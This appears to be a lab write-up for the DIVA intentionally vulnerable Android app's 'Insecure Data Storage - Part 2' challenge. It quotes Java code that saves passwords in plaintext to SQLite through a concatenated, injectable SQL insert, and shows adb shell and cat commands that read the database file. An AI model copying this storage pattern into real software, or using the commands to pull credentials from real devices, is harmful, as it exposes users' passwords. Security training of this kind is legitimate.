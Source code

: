 ## Insecure Data Storage - Part 2

Codice Vulnerabile

> app/src/main/java/jakhar/aseem/diva/InsecureDataStorage2Activity.java

```
private SQLiteDatabase mDB;

...

mDB = openOrCreateDatabase("ids2", MODE_PRIVATE, null);
mDB.execSQL("CREATE TABLE IF NOT EXISTS myuser(user VARCHAR, password VARCHAR);");

...

mDB.execSQL("INSERT INTO myuser VALUES ('"+ usr.getText().toString() +"', '"+ pwd.getText().toString() +"');");
```

Exploit:

- `$ adb shell`

- `# cat /data/user/0/jakhar.aseem.diva/databases/ids2`

